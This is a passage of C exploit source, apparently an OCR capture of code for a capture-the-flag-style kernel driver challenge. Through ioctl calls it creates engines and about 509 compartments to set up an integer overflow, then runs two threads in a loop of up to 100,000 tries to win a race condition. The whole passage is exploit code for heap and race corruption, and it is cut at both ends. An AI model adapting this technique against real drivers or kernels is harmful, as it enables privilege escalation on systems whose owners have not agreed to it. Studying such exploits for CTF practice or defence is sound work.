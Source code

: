 ```c=
        .name = malloc(NAME_SZ),
    };
    memset(opts.name, 'C', NAME_SZ);

    steamid_t engine_id = ioctl(fd, ADD_ENGINE, &opts);
    printf("main engine id:  %08lx\n", engine_id);

    int inuse = 0;
    
    // create 0xfe compartments to prep for integer overflow race
    opts.id = engine_id;
    opts.desc = malloc(DESC_SZ);
    strcpy(opts.desc, "AAAAAAAA");
    for (int i = 0; i < 254; i++, inuse++) {
        compartments[inuse] = ioctl(fd, ADD_COMPARTMENT, &opts);
        if (compartments[inuse] == -1) {
            fprintf(stderr, "Failed to add compartment %d\n", inuse);
            exit(-1);
        }
    }

    // create more components on separate engine to extend race window
    steamid_t trash_id = ioctl(fd, ADD_ENGINE, &opts);
    printf("trash engine id: %08lx\n", trash_id);
    opts.id = trash_id;
    for (int i = 0; i < 255; i++, inuse++) {
        compartments[inuse] = ioctl(fd, ADD_COMPARTMENT, &opts);
        if (compartments[inuse] == -1) {
            fprintf(stderr, "Failed to add compartment %d\n", inuse);
            exit(-1);
        }
    }

    steamid_t result1, result2;
    pthread_t thread1, thread2;
    for (int i = 0; i < 100000; i++) {
        pthread_create(&thread1, NULL, race_routine, (void *) (unsigned long) engine_id);
        pthread_create(&thread2, NULL, race_routine, (void *) (unsigned long) engine_id);

        usleep(5000);
        start_race = 1;
        pthread_join(thread1, (void **) &result1);
        pthread_join(thread2, (void **) &result2);

        if (result1 != -1 && result2 != -1) {
            break;
        } else if (result1 == -1 && result2 == -1) {
            goto cleanup;
        }
        if (result1 != -1) {
            opts.id = result1;
            ioctl(fd, DELETE_COMPARTMENT, &opts);
        }
        if (result2 != -1) {
            opts.id = result2;
            ioctl(fd, DELETE_COMPARTMENT, &opts);
        }
        start_race = 0;
    }

    compartments[inuse++] = result1;
    compartments[inuse++] = result2;

```